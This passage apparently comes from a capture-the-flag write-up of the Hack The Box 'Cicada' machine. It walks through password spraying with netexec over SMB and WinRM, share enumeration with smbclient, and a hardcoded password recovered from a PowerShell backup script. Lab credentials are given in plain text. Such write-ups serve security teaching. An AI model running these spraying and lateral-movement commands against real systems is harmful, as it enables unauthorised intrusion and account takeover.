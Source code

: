 ![ldapsearch finds passwords](/images/HTB-Cicada/ldapsearch_pwdfind.png)

Then we run the list of users against the new password found.

```
netexec smb cicada.htb -u users.txt -p 'aRt$Lp#7t*VQ!3' --continue-on-success
```

![ldap password match](/images/HTB-Cicada/pwd_match.png)

We now know that the password `aRt$Lp#7t*VQ!3` belong to `david.orelious`.

---

With these new credentials we enumerate SMB once more.

```
netexec smb cicada.htb -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares
```

![david.orelious available shares](/images/HTB-Cicada/david_smb.png)

This user has access to the `DEV` share.

```
smbclient //cicada.htb/DEV -U david.orelious
```

![DEV share accessed](/images/HTB-Cicada/DEV_share.png)

The `DEV` share contains a file called `Backup_script.ps1` which we download. Its content is below:

```PowerShell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

## Shell as emily.oscars

The script has the password (`Q!3@Lp#M6b*7t*Vt`)  of `emily.oscars`. With the result of our nmap scan we can see that winrm is running on port 5985. So let's check if we can login with it.

Make a list with the three passwords we have so far and run it against the user names list.

```
netexec winrm cicada.htb -u users.txt -p passwords.txt
```
